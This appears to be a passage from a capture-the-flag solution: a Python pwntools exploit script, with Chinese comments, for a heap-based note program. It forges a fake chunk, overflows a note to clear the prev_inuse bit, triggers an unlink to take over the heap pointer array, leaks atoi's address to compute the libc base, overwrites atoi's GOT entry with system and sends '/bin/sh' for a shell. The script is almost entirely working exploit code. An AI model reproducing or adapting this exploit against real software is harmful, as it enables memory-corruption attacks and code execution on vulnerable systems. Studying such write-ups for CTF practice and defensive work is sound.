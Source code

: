 ```python
   sh.sendlineafter('[1.overwrite/2.append]',str(mode))
   sh.sendlineafter('TheNewContents:',content)
 
 
def delete(index):
   sh.sendlineafter('option--->>','4')
   sh.sendlineafter('Input the id of the note:',str(index))
 
 
heap_ptr_1 = 0x0000000000602120
#prev_size size
fake_chunk = p64(0) + p64(0x81 + 0x20)
#fd、bk
fake_chunk += p64(heap_ptr_1 - 0x18) + p64(heap_ptr_1 - 0x10)
fake_chunk += 'a'*0x10
 
add(0x80,fake_chunk) #0
add(0,'') #1
add(0x80,'b'*0x20) #2
add(0x10,'c'*0x8) #3
 
#通过1溢出，修改chunk2的头数据
#修改chunk1的prev_size
#由于strncat遇0截断，因此，写prev_size和size的时候，我们分两步，从后往前写
#第一次写size为0x90，即设置prev_inuse为0标记前面的chunk为空闲状态
payload = 'd'*0x10 + 'd'*0x8 + p8(0x90)
edit(1,payload)
#gdb.attach(sh)

#第二次写prev_size，需要先清零prev_size处其他的d数据
for i in range(7,-1,-1):
   payload = 'd'*0x10 + 'd'*i
   edit(1,payload)
   #gdb.attach(sh)
#现在写prev_size，写为0x20 + 0x80
payload = 'd'*0x10 + p64(0x20 + 0x80)
edit(1,payload)
#unsorted bin unlink
delete(2)
#现在可以控制堆指针数组了
#第一次，我们先将heap[0]改成heap数组本身的地址+8，进而下一次利用
edit(0,'a'*0x18 + p64(heap_ptr_1 + 8))
#修改heap[1]为atoi_got
payload = p64(atoi_got)
edit(0,payload)
#泄露atoi地址
show(1)

sh.recvuntil('Content is ')
atoi_addr = u64(sh.recv(6).ljust(8,'\x00'))
libc_base = atoi_addr - libc.sym['atoi']
system_addr = libc_base + libc.sym['system']


edit(1,p64(system_addr))
#getshell
sh.sendlineafter('option--->>','/bin/sh')
 
sh.interactive()
```
